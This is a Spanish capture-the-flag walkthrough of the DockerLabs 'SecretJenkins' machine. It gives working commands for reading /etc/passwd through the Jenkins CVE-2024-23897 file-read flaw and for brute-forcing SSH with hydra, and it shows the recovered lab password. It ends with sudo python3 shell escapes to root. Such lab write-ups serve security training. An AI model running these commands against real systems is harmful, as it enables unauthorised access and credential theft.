 ![image](https://github.com/user-attachments/assets/9fa3bcdd-34ec-405d-810d-f0f33883ef82)---
title: SecretJenkins - DockerLabs
published: true
categories: DockerLabs
---


| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | El Pingüino de Mario        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/f3015160-3c6a-41ed-8b7a-7e6f8d0ad54b)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `8080` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.
```bash
nmap -p22,8080 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/cc8124ce-96cb-4609-aa42-634a6fcdfba4)

# Exploración Web

En el puerto `8080` encontramos un servidor Jenkins que muestra un panel de inicio de sesión.

![image](https://github.com/user-attachments/assets/71cb5b57-8247-46cb-aeb0-e71f785d8faf)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/b3a7df30-cbf2-4314-a2b8-3e82bbd82fbd)

Explorando las rutas, verificamos que la versión de `Jenkins es 2.441`.

# LFI
La versión `2.441` de Jenkins es vulnerable a un LFI, según la vulnerabilidad documentada en [GitHub](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897)

Para explotarla, descargamos el archivo `jenkins-cli.jar`:
```URL
http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar
```
Con este archivo, ejecutamos el siguiente comando para intentar leer el archivo `/etc/passwd`:
```bash
java -jar jenkins-cli.jar -s http://172.17.0.2:8080/ -http connect-node "@/etc/passwd"
```

![image](https://github.com/user-attachments/assets/57ab7c6d-0ccc-404e-bd13-ed7292ca5a57)

# Fuerza Bruta 
Identificamos dos usuarios potenciales (`pinguinito` y `bobby`) y usamos `hydra` para realizar un ataque de fuerza bruta sobre SSH, encontrando una contraseña para `bobby`:
```bash
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 
```
![image](https://github.com/user-attachments/assets/bbb6159d-c30f-4718-89b4-075b6b4f2ccf)

La contraseña de `bobby` es `chocolate`.

# Intrusion

Accedemos mediante SSH como el usuario `bobby`:

![image](https://github.com/user-attachments/assets/6bcb0254-2860-45d1-9668-6015c61c7f29)

Al ejecutar `sudo -l`, notamos que `bobby` tiene permisos para ejecutar `python3` como `pinguinito` .Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

```bash
sudo -u pinguinito /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
```
![image](https://github.com/user-attachments/assets/b0a36d6d-7206-4f69-b2fe-a3f0d9926dba)

Ahora estamos como el usuario `pinguinito`.

# Escalada de privilegios.

Volvemos a ejecutar `sudo -l`, notamos que `pinguinito` tiene permisos para ejecutar `python3` como `root` en `/opt/script.py
`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/690ab7ee-2455-4cdd-939c-b0c93837cf9e)

Observamos que el archivo es propiedad de `pinguinito`, lo que nos permite modificarlo.

![image](https://github.com/user-attachments/assets/61bd02cc-0fb5-4556-b1c6-4fc94d3f8aad)

Para editarlo, usamos comandos de escritura ya que no están habilitados ni `nano` ni `vim`:

![image](https://github.com/user-attachments/assets/d4346a5c-903a-4e99-8446-44d284d7250e)

```bash
chmod 744 /opt/script.py
echo "import os" > /opt/script.py
echo 'os.system("bash")' >> /opt/script.py
```

Ejecutamos el script y obtenemos acceso como root:

![image](https://github.com/user-attachments/assets/e11413ce-825d-4e27-b96d-2a59343f673a)
